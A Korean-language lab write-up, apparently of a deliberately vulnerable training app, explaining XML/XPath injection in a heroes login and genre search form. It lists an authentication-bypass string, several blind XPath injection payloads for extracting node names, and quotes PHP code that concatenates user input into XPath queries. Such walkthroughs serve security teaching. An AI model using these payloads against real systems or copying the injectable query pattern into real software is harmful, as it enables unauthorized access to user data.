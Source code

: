 * `// $result = $xml->xpath("/heroes/hero[login='" . $login . "' and password='" . $password . "']");`에서 login 뒤의 작은 따옴표를 처리해야 함
* Login 칸에 `' or 1=1 or '`을 입력하면 Neo가 뜸

![image](https://user-images.githubusercontent.com/28076542/52263432-7ce67780-2972-11e9-8a04-29354bf78b38.png)

* 이러한 문법을 이용하여 blind sql 인젝션처럼 문구들을 입력하여 정보를 얻어옴
* Login 창에 다음과 같은 구문을 입력하여 정보 획득

```bash
neo' and count(../child::*)=6 or 'a'='b 
neo' and string-length(name(parent::*))=6 or 'a'='b 
neo' and substring(name(parent::*),1,1)='h' or 'a'='b 
neo' and string-length(name(../child::*[position()=1]))=4 or 'a'='b 
neo' and substring(name(../child::*[position()=1]), 1, 1)='h' or 'a'='b 
neo' and string-length(name(/heroes/child::*))=4 or 'a'='b 
neo' and string-length(name(//*))=6 or 'a'='b
```

## XML/XPath Injection (Search)

![image](https://user-images.githubusercontent.com/28076542/52265590-c7b6be00-2977-11e9-8fd7-be246882603a.png)

```php
<?php

if(isset($_REQUEST["genre"])) 
{
    
    $genre = $_REQUEST["genre"];
    $genre = xmli($genre);
   
    // Loads the XML file
    $xml = simplexml_load_file("passwords/heroes.xml");
     
    // XPath search
    // $result = $xml->xpath("//hero[genre = '$genre']/movie");
    $result = $xml->xpath("//hero[contains(genre, '$genre')]/movie");
    
    // Case insensitive search
    // $result = $xml->xpath("//hero[contains(translate(genre, 'ABCDEFGHIJKLMNOPQRSTUVWXYZ', 'abcdefghijklmnopqrstuvwxyz'), translate('$genre', 'ABCDEFGHIJKLMNOPQRSTUVWXYZ', 'abcdefghijklmnopqrstuvwxyz'))]/movie");
    
    // $upper = "ABCDEFGHIJKLMNOPQRSTUVWXYZÆØÅ";
    // $lower = "abcdefghijklmnopqrstuvwxyzæøå";
    
    // $result = $xml->xpath("//hero[contains(translate(genre, '$upper', '$lower'), translate('$genre', '$upper', '$lower'))]/movie");

    // Debugging
    // print_r($result);  
    // echo $result[0][0];  
    // echo $result[0]->login;

    if($result)
    {
        foreach($result as $key => $row)       
        {
            // print_r($row);    
?>
```
